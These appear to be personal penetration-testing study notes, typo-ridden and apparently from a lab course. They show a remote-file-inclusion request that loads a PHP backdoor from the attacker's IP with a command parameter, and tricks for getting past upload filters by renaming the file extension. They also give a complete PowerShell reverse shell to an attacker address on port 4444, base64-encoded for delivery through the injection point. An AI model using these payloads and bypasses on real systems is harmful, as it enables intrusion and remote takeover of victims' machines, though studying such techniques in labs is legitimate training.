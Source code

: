 python3 -m http.server 80 
this opens a http server on port 80 with pyhton

```
using curl:
```
curl "http://<domain>/meteor/index.php?page=http://<myip>/simple-backdoor.php&cmd=<command>"

when using the ptentestmnokey's php reverse shell remember to change the ip to my vpn ip, this shell actually give me a proper bash console default port is 4444


# File Upload Vulnerabilities

exe files:
depending on web app and use, we can make educated guesses to locate upload mechanisms

conntent management system, often upload avatar

ect

just upload like the nibbles box

if php is blocked we ecan rename the files extension to phps or php7 

or we can change chatacters in the file extension to upper case

.php to .pHP


powershell one-liner for reverse shell

encode with base64

pwsh
to run powershell in kali

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

exit

```
variable $Text used to store the reversehll logic
```
convert and the property Unicode from the class Encoding to encde content of Text Var

and then we can use the vuln explored before with 
&cmd=powershell%20-enc%20<base64_command>
-enc used to decode the encoded code from the powershell op
